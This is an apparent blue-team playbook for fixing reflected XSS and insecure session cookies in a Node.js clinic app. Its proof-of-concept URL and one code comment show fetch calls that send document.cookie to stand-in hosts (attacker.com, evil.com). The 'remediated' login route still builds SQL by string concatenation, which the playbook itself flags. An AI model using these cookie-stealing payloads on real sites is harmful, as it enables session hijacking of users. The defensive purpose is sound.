

# 🛡️ XSS Remediation Playbook
### Clinic Secure App — Blue Team Security Response
**Target Application:** `clinic-secure-app` · Node.js + Express + SQLite · Port 3000  
**Author:** Blue Team Security  
**Date:** 2026-05-22  
**Classification:** Internal — Security Remediation  

---

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Root Cause Analysis](#2-root-cause-analysis)
3. [Vulnerability 1 — Reflected XSS on GET /patient/search](#3-vulnerability-1--reflected-xss-on-get-patientsearch)
4. [Vulnerability 2 — Reflected XSS on POST /patient/book](#4-vulnerability-2--reflected-xss-on-post-patientbook)
5. [Vulnerability 3 — Insecure Session Cookie](#5-vulnerability-3--insecure-session-cookie)
6. [Defense in Depth: Content Security Policy](#6-defense-in-depth-content-security-policy)
7. [Complete Remediated Route Code](#7-complete-remediated-route-code)
8. [Required npm Packages](#8-required-npm-packages)
9. [Verification Steps](#9-verification-steps)

---

## 1. Executive Summary

**Cross-Site Scripting (XSS)** is a client-side code injection attack in which an attacker injects malicious scripts into web content that is then rendered and executed in a victim's browser. The injected script runs under the **origin trust** of the vulnerable site, giving it full access to cookies, session tokens, DOM content, and the ability to make authenticated requests on the victim's behalf.

### Impact

In this clinic application, a successful XSS attack enables an attacker to:

- **Steal the session cookie** (`session_id`) set on login — because the cookie is missing the `httpOnly` flag, it is fully readable by JavaScript (`document.cookie`), making session hijacking trivial.
- **Impersonate an authenticated doctor**, gaining access to all patient vitals, records, and administrative functions.
- **Perform phishing attacks** by injecting fake login forms into the clinic portal.
- **Keylog or exfiltrate** any data entered by authenticated users on the page.

### CVSS Severity Ratings

| # | Vulnerability | Vector | CVSS v3.1 Score | Severity |
|---|--------------|--------|-----------------|----------|
| 1 | Reflected XSS — `GET /patient/search` | Network / No Auth Required | **7.4** | 🟠 **High** |
| 2 | Reflected XSS — `POST /patient/book` | Network / No Auth Required | **7.4** | 🟠 **High** |
| 3 | Missing Cookie Security Flags | Network / Auth Required | **6.5** | 🟠 **Medium–High** |

> [!WARNING]
> When Vuln 1 or 2 is combined with Vuln 3, the effective impact escalates to **Critical**. An unauthenticated attacker can craft a malicious link, steal an authenticated doctor's session cookie via XSS, and take over the session entirely — all without touching the server.

---

## 2. Root Cause Analysis

All three vulnerabilities share a common set of root causes rooted in **insecure-by-default coding practices** in the Express application.

### 2.1 Unsanitized Template Literals (Primary Cause)

Node.js ES6 template literals (backtick strings) are **not HTML-aware**. When user-controlled input is interpolated directly into an HTML string using `${}`, the browser receives the raw user data as part of the markup. Any HTML tags or JavaScript event handlers inside that data are parsed and executed.

```javascript
// DANGEROUS: raw user input injected into HTML
res.send(`<p>Showing results for: <span>${query}</span></p>`);
//                                           ^^^^^^
//                          This becomes part of the HTML document.
//                          A payload like <script>alert(1)</script>
//                          is executed by the browser as-is.
```

### 2.2 No Output Encoding

The application performs **no HTML entity encoding** on any user-supplied value before embedding it in a response. Output encoding is the primary and most reliable defense against XSS — it transforms dangerous characters (`<`, `>`, `"`, `'`, `&`) into their safe HTML entity equivalents (`&lt;`, `&gt;`, etc.), so they are rendered as text, not parsed as markup.

### 2.3 No Content Security Policy (CSP)

The application sets **no CSP headers**. CSP is a browser-enforced allowlist that restricts which scripts are allowed to run. Without it, even if an injection occurs, there is no secondary browser-level barrier to block execution of injected `<script>` tags or `onerror` handlers.

### 2.4 Insecure Cookie Configuration

The session cookie is set without `httpOnly`, `secure`, or `sameSite` flags — meaning:
- JavaScript **can read** the cookie (`httpOnly: false`)
- The cookie is sent over **plain HTTP** connections (`secure: false`)
- The cookie is sent on **cross-site requests** (`sameSite` unset)

This is a critical amplifier: XSS vulnerabilities are far more dangerous when session cookies are script-accessible.

### Root Cause Summary Table

| Root Cause | Affected Vulns | Missing Control |
|---|---|---|
| Raw user input in template literals | Vuln 1, Vuln 2 | Output encoding (`he.encode`) |
| No output encoding library | Vuln 1, Vuln 2 | `he` npm package |
| No Content Security Policy header | Vuln 1, Vuln 2 | CSP middleware |
| Missing `httpOnly` cookie flag | Vuln 3 | `httpOnly: true` |
| Missing `secure` cookie flag | Vuln 3 | `secure: true` |
| Missing `sameSite` cookie flag | Vuln 3 | `sameSite: 'Lax'` |

---

## 3. Vulnerability 1 — Reflected XSS on `GET /patient/search`

### Description

The `/patient/search` endpoint reads the `q` query parameter from the URL and reflects it back into the HTML response inside a `<span>` element without any encoding. This is a textbook **Reflected XSS** scenario.

### Proof-of-Concept Attack

An attacker crafts and distributes the following URL (e.g., via a phishing email to clinic staff):

```
http://localhost:3000/patient/search?q=<script>fetch('https://attacker.com/steal?c='+document.cookie)</script>
```

When an authenticated doctor clicks this link, the injected script executes in their browser and silently sends their `session_id` cookie to the attacker's server.

### Vulnerable Code (Lines 50–70, `server.js`)

```javascript
// VULNERABLE — DO NOT USE IN PRODUCTION
app.get('/patient/search', (req, res) => {
    const query = req.query.q || '';
    //            ^^^^^^^^^^^^^^^^^^^
    //            Raw user input — no encoding applied

    res.send(`
        <html>
        <head>
            <title>Search Results</title>
            <script src="https://cdn.jsdelivr.net/npm/@tailwindcss/browser@4"></script>
        </head>
        <body class="bg-slate-950 text-white font-sans p-10">
            <div class="max-w-xl mx-auto bg-slate-900 p-6 rounded-xl border border-slate-800 shadow-xl">
                <h2 class="text-emerald-400 text-xl font-bold mb-4">Clinic Directory Search</h2>
                <p class="text-sm text-slate-300">Showing results for: <span class="font-mono text-amber-400">${query}</span></p>
                <!-- DANGER: query is raw user input injected directly into HTML -->
                <p class="text-xs text-slate-500 mt-2">[0 departments found]</p>
                <br><a href="/patient.html" class="text-emerald-400 text-xs font-bold">Back to Portal</a>
            </div>
        </body>
        </html>
    `);
});
```

### Secure Replacement Code

```javascript
// SECURE — he.encode() applied before HTML interpolation
const he = require('he'); // npm install he

app.get('/patient/search', (req, res) => {
    // Encode BEFORE interpolating — transforms <, >, ", ', & into safe entities
    const query = he.encode(req.query.q || '');
    //            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    //            <script>alert(1)</script>
    //            becomes: &lt;script&gt;alert(1)&lt;/script&gt;

    res.send(`
        <html>
        <head>
            <title>Search Results</title>
            <script src="https://cdn.jsdelivr.net/npm/@tailwindcss/browser@4"></script>
        </head>
        <body class="bg-slate-950 text-white font-sans p-10">
            <div class="max-w-xl mx-auto bg-slate-900 p-6 rounded-xl border border-slate-800 shadow-xl">
                <h2 class="text-emerald-400 text-xl font-bold mb-4">Clinic Directory Search</h2>
                <p class="text-sm text-slate-300">Showing results for: <span class="font-mono text-amber-400">${query}</span></p>
                <p class="text-xs text-slate-500 mt-2">[0 departments found]</p>
                <br><a href="/patient.html" class="text-emerald-400 text-xs font-bold">Back to Portal</a>
            </div>
        </body>
        </html>
    `);
});
```

### Diff View

```diff
+const he = require('he');

 app.get('/patient/search', (req, res) => {
-    const query = req.query.q || '';
+    const query = he.encode(req.query.q || '');

     res.send(`
         ...
         <span class="font-mono text-amber-400">${query}</span>
         ...
     `);
 });
```

> [!TIP]
> `he.encode('<script>alert(1)</script>')` outputs `&lt;script&gt;alert(1)&lt;/script&gt;`
> The browser **displays** this as literal text rather than executing it as a script tag.

### Rationale

| Change | Reason |
|---|---|
| `require('he')` | Import a battle-tested HTML entity encoding library — do not write your own encoder |
| `he.encode(req.query.q \|\| '')` | Converts all HTML-special characters to entities **before** the string touches the template literal; any injected `<script>` becomes harmless text |
| No change to HTML structure | The fix is minimal and non-breaking; encoded output still displays correctly in browsers |

---

## 4. Vulnerability 2 — Reflected XSS on `POST /patient/book`

### Description

The `/patient/book` endpoint reflects the `patient_name` (and `app_date`) POST body fields directly into the HTML confirmation response. While POST-based XSS requires user interaction (submitting a form), it is still exploitable — attackers can host a malicious page with a cross-origin auto-submitting form, or exploit stored form data.

### Vulnerable Code

```javascript
// VULNERABLE — DO NOT USE IN PRODUCTION
app.post('/patient/book', (req, res) => {
    const patientName = req.body.patient_name || '';
    const appDate     = req.body.app_date     || '';
    // Both values are raw POST input — no encoding applied

    res.send(`
        <html>
        <body>
            <h2>Appointment Confirmed!</h2>
            <p>Patient: <strong>${patientName}</strong></p>
            <!-- DANGER: Input like 
                 will be injected as raw HTML and the onerror script executes. -->
            <p>Date: ${appDate}</p>
        </body>
        </html>
    `);
});
```

### Secure Replacement Code

```javascript
// SECURE — All reflected POST fields are HTML-encoded
const he = require('he'); // (already required at top of file)

app.post('/patient/book', (req, res) => {
    // Encode every user-controlled value before HTML interpolation
    const patientName = he.encode(req.body.patient_name || '');
    const appDate     = he.encode(req.body.app_date     || '');

    res.send(`
        <html>
        <body>
            <h2>Appointment Confirmed!</h2>
            <p>Patient: <strong>${patientName}</strong></p>
            <p>Date: ${appDate}</p>
        </body>
        </html>
    `);
});
```

### Diff View

```diff
 app.post('/patient/book', (req, res) => {
-    const patientName = req.body.patient_name || '';
-    const appDate     = req.body.app_date     || '';
+    const patientName = he.encode(req.body.patient_name || '');
+    const appDate     = he.encode(req.body.app_date     || '');

     res.send(`...
         <strong>${patientName}</strong>
         ...${appDate}...
     `);
 });
```

> [!IMPORTANT]
> **Every** user-supplied value that appears in an HTML response must be encoded — including fields you consider "safe" like dates or names. Attackers control all form inputs.

### Rationale

| Change | Reason |
|---|---|
| `he.encode(req.body.patient_name)` | Prevents event-handler injection via payloads like `` |
| `he.encode(req.body.app_date)` | Dates are typically numbers, but the field is user-controlled — encoding is zero-cost insurance |
| Encoding at assignment time | Encoding immediately upon extraction prevents the raw value from accidentally being used elsewhere in the handler |

---

## 5. Vulnerability 3 — Insecure Session Cookie

### Description

After successful login, the application sets a session cookie with **no security flags**. This means:

- **No `httpOnly`** → Any JavaScript on the page (including injected XSS scripts) can read `document.cookie` and steal the session token.
- **No `secure`** → The cookie is transmitted over plain HTTP, enabling interception by network-level attackers (man-in-the-middle).
- **No `sameSite`** → The cookie is attached to cross-site requests, enabling Cross-Site Request Forgery (CSRF) attacks.

This vulnerability is the **direct enabler** of session hijacking when combined with either XSS vulnerability above.

### Vulnerable Code (Line 38, `server.js`)

```javascript
// VULNERABLE — Cookie is script-accessible, sent over HTTP, and CSRF-vulnerable
res.cookie('session_id', 'SECRET_DR_TOKEN_XYZ123_2026', { maxAge: 900000 });

// An attacker exploiting XSS simply runs:
//   fetch('https://evil.com/?token=' + document.cookie)
// And obtains: "session_id=SECRET_DR_TOKEN_XYZ123_2026"
```

### Secure Replacement Code

```javascript
// SECURE — All three protective flags applied
res.cookie('session_id', 'SECRET_DR_TOKEN_XYZ123_2026', {
    httpOnly: true,      // JavaScript CANNOT read this cookie — blocks XSS-based theft
    secure:   true,      // Cookie ONLY sent over HTTPS — blocks network interception
    sameSite: 'Lax',     // Cookie NOT sent on cross-site POST requests — blocks CSRF
    maxAge:   900000     // Session lifetime unchanged (15 minutes)
});
```

### Diff View

```diff
-res.cookie('session_id', 'SECRET_DR_TOKEN_XYZ123_2026', { maxAge: 900000 });
+res.cookie('session_id', 'SECRET_DR_TOKEN_XYZ123_2026', {
+    httpOnly: true,
+    secure:   true,
+    sameSite: 'Lax',
+    maxAge:   900000
+});
```

### Cookie Flag Reference

| Flag | Value | What It Does | Without It |
|---|---|---|---|
| `httpOnly` | `true` | Prevents client-side JavaScript from accessing the cookie via `document.cookie` | XSS scripts can steal the token directly |
| `secure` | `true` | Cookie is only sent over encrypted HTTPS connections | Cleartext HTTP requests include the session token — sniffable on any network |
| `sameSite` | `'Lax'` | Cookie is not sent on cross-origin POST/PUT/DELETE requests | Authenticated requests can be forged from attacker-controlled pages (CSRF) |
| `maxAge` | `900000` | Cookie expires after 900 seconds (15 min) | Already present — no change needed |

> [!WARNING]
> `secure: true` requires the application to be served over **HTTPS** in production. For local development over HTTP, temporarily set `secure: false` — but **never** deploy to production without HTTPS and `secure: true`.

> [!NOTE]
> Even with `httpOnly: true`, fixing the XSS vulnerabilities remains mandatory. Defense in depth requires both layers. `httpOnly` is a mitigation, not a cure for XSS.

---

## 6. Defense in Depth: Content Security Policy

### What is CSP?

A **Content Security Policy (CSP)** is an HTTP response header that instructs browsers to only execute scripts, load stylesheets, and fetch resources from explicitly approved sources. It acts as a **second line of defense**: even if an XSS payload is somehow injected into the page, the browser refuses to execute inline scripts or scripts from unapproved origins.

### CSP Middleware for Express

Add this middleware **before all route definitions** in `server.js`:

```javascript
// Add immediately after app is created, before any route registration
app.use((req, res, next) => {
    res.setHeader(
        'Content-Security-Policy',
        [
            "default-src 'self'",           // All resources default to same-origin only
            "script-src 'self'",            // Scripts only from the same origin — no inline JS
            "style-src 'self' 'unsafe-inline' https://cdn.jsdelivr.net",  // Allow Tailwind CDN styles
            "img-src 'self' data:",         // Images from same origin or data URIs
            "connect-src 'self'",           // Fetch/XHR only to same origin
            "frame-ancestors 'none'",       // Prevent clickjacking via iframes
            "base-uri 'self'",              // Block base tag hijacking
            "form-action 'self'"            // Forms can only submit to same origin
        ].join('; ')
    );
    next();
});
```

### What This Blocks

| Attack Vector | Without CSP | With CSP |
|---|---|---|
| `<script>alert(document.cookie)</script>` (inline) | Executes | Blocked — `script-src 'self'` forbids inline scripts |
| `<script src="https://evil.com/steal.js">` | Loads | Blocked — external domain not in allowlist |
| `` | Executes | Blocked — inline event handlers treated as inline scripts |
| Framing this site in an attacker's iframe | Allowed | Blocked — `frame-ancestors 'none'` |

> [!IMPORTANT]
> The Tailwind CDN `<script>` tag in `/patient/search` loads JavaScript from `cdn.jsdelivr.net`. In a hardened production environment, Tailwind should be compiled to a static CSS file and served from `'self'`. The CSP above adds the CDN to `style-src` but the CDN `<script>` tag in HTML responses should be replaced with a compiled, locally-hosted CSS file.

> [!TIP]
> During initial rollout, use `Content-Security-Policy-Report-Only` to log violations without blocking, letting you tune the policy before enforcing it:
> `res.setHeader('Content-Security-Policy-Report-Only', "default-src 'self'; ...")`

---

## 7. Complete Remediated Route Code

The following shows each affected route in its final, fully remediated form. These replace the corresponding routes in `server.js`.

### Preamble — Add at Top of File

```javascript
const express    = require('express');
const sqlite3    = require('sqlite3').verbose();
const bodyParser = require('body-parser');
const path       = require('path');
const he         = require('he');          // ADD THIS LINE

const app = express();

// CSP Middleware — add BEFORE all routes
app.use((req, res, next) => {
    res.setHeader(
        'Content-Security-Policy',
        [
            "default-src 'self'",
            "script-src 'self'",
            "style-src 'self' 'unsafe-inline' https://cdn.jsdelivr.net",
            "img-src 'self' data:",
            "connect-src 'self'",
            "frame-ancestors 'none'",
            "base-uri 'self'",
            "form-action 'self'"
        ].join('; ')
    );
    next();
});
```

---

### Remediated Route — `POST /api/login`

```javascript
// SECURE: Cookie now has httpOnly, secure, and sameSite flags
app.post('/api/login', (req, res) => {
    const { username, password } = req.body;
    const sqlQuery = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
    // NOTE: This route also has a SQL Injection vulnerability (see SQL Injection Playbook).
    //       Parameterised queries must also be applied to this route.

    db.get(sqlQuery, (err, row) => {
        if (err) return res.status(500).json({ success: false, error: err.message });

        if (row) {
            res.cookie('session_id', 'SECRET_DR_TOKEN_XYZ123_2026', {
                httpOnly: true,      // ADDED: blocks JS access to cookie
                secure:   true,      // ADDED: HTTPS-only transmission
                sameSite: 'Lax',     // ADDED: CSRF protection
                maxAge:   900000     // unchanged
            });
            res.json({ success: true, role: row.role, user: row.username });
        } else {
            res.json({ success: false, message: 'Invalid credentials' });
        }
    });
});
```

---

### Remediated Route — `GET /patient/search`

```javascript
// SECURE: User input HTML-encoded before template interpolation
app.get('/patient/search', (req, res) => {
    const query = he.encode(req.query.q || '');   // CHANGED: raw => he.encode()

    res.send(`
        <html>
        <head>
            <title>Search Results</title>
            <script src="https://cdn.jsdelivr.net/npm/@tailwindcss/browser@4"></script>
        </head>
        <body class="bg-slate-950 text-white font-sans p-10">
            <div class="max-w-xl mx-auto bg-slate-900 p-6 rounded-xl border border-slate-800 shadow-xl">
                <h2 class="text-emerald-400 text-xl font-bold mb-4">Clinic Directory Search</h2>
                <p class="text-sm text-slate-300">Showing results for: <span class="font-mono text-amber-400">${query}</span></p>
                <p class="text-xs text-slate-500 mt-2">[0 departments found]</p>
                <br><a href="/patient.html" class="text-emerald-400 text-xs font-bold">Back to Portal</a>
            </div>
        </body>
        </html>
    `);
});
```

---

### Remediated Route — `POST /patient/book`

```javascript
// SECURE: All POST body fields HTML-encoded before interpolation
app.post('/patient/book', (req, res) => {
    const patientName = he.encode(req.body.patient_name || '');   // CHANGED
    const appDate     = he.encode(req.body.app_date     || '');   // CHANGED

    res.send(`
        <html>
        <head><title>Booking Confirmed</title></head>
        <body class="bg-slate-950 text-white font-sans p-10">
            <div class="max-w-xl mx-auto bg-slate-900 p-6 rounded-xl">
                <h2 class="text-emerald-400 text-xl font-bold mb-4">Appointment Confirmed!</h2>
                <p>Patient: <strong>${patientName}</strong></p>
                <p>Date: ${appDate}</p>
                <br><a href="/patient.html" class="text-emerald-400 text-xs font-bold">Back to Portal</a>
            </div>
        </body>
        </html>
    `);
});
```

---

## 8. Required npm Packages

### Install Command

```bash
npm install he
```

### Package Details

| Package | Version | Purpose | Registry |
|---|---|---|---|
| `he` | `^1.2.0` | HTML entity encoder/decoder for Node.js | npmjs.com/package/he |

### Verify Installation

After running `npm install he`, confirm the package is available:

```bash
node -e "const he = require('he'); console.log(he.encode('<script>alert(1)</script>'));"
# Expected output: &lt;script&gt;alert(1)&lt;/script&gt;
```

> [!NOTE]
> The `he` library was chosen because it is a **dedicated, spec-compliant HTML entity encoder** with zero dependencies, a tiny footprint, and widespread adoption. Alternatives include using a full templating engine (e.g., **Pug**, **EJS**, **Nunjucks**) with auto-escaping enabled — these are preferable for large applications since they enforce encoding at the rendering layer by default.

---

## 9. Verification Steps

### 9.1 Manual Browser Testing

After applying the fix, restart the server (`node server.js`) and test each endpoint:

#### Test Vuln 1 — GET /patient/search

**Step 1:** Navigate to:
```
http://localhost:3000/patient/search?q=<script>alert('XSS')</script>
```

| Condition | Expected Result |
|---|---|
| BEFORE fix | Alert dialog appears |
| AFTER fix | Literal text `<script>alert('XSS')</script>` displayed — no dialog |

**Step 2:** View Page Source and verify encoding:
```html
Showing results for: <span ...>&lt;script&gt;alert(&#x27;XSS&#x27;)&lt;/script&gt;</span>
```

#### Test Vuln 2 — POST /patient/book

```bash
curl -X POST http://localhost:3000/patient/book \
  -d "patient_name=&app_date=2026-01-01"
```

| Condition | Expected Result |
|---|---|
| BEFORE fix | `` tag in response HTML triggers `onerror` event |
| AFTER fix | Response contains `&lt;img src=x ...&gt;` as safe text |

#### Test Vuln 3 — Cookie Flags

```bash
curl -v -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin"}'
```

Inspect the `Set-Cookie` response header:

```
BEFORE fix:
Set-Cookie: session_id=SECRET_DR_TOKEN_XYZ123_2026; Max-Age=900; Path=/

AFTER fix:
Set-Cookie: session_id=SECRET_DR_TOKEN_XYZ123_2026; Max-Age=900; Path=/; HttpOnly; Secure; SameSite=Lax
```

In **DevTools → Application → Cookies**: confirm ✅ `HttpOnly` is checked.  
In **DevTools → Console**: confirm `document.cookie` does **not** return `session_id`.

### 9.2 CSP Header Verification

```bash
curl -I http://localhost:3000/patient/search?q=test
```

Look for:
```
Content-Security-Policy: default-src 'self'; script-src 'self'; ...
```

### 9.3 Automated Scanner Verification

| Tool | Action | Pass Criterion |
|---|---|---|
| OWASP ZAP | Active Scan → `http://localhost:3000` | No "Cross Site Scripting (Reflected)" alerts |
| Burp Suite | Scanner → Audit XSS on `/patient/search` | No XSS issue reported |
| Browser DevTools Console | Load XSS URL | CSP violation logged, no script executed |
| `npm audit` | `npm audit` in project root | No critical vulnerabilities in `he` package |

### 9.4 Regression Checklist

Before closing the remediation ticket, verify:

- [ ] `GET /patient/search?q=<script>alert(1)</script>` — no alert fires
- [ ] `GET /patient/search?q=normal+query` — page displays correctly
- [ ] `POST /patient/book` with valid data — confirmation page renders correctly
- [ ] `POST /patient/book` with XSS payload — payload displayed as text, not executed
- [ ] Login sets cookie with `HttpOnly`, `Secure`, `SameSite=Lax` flags
- [ ] `document.cookie` in browser console does **not** return `session_id`
- [ ] All responses include the `Content-Security-Policy` header
- [ ] No CSP violations in browser console for legitimate app functionality

---

## Appendix: Attack Flow Diagram



---

*Playbook prepared by the Blue Team Security division. For questions, contact the application security lead.*  
*References: OWASP XSS Prevention Cheat Sheet · CWE-79 · NIST SP 800-53 SI-10*
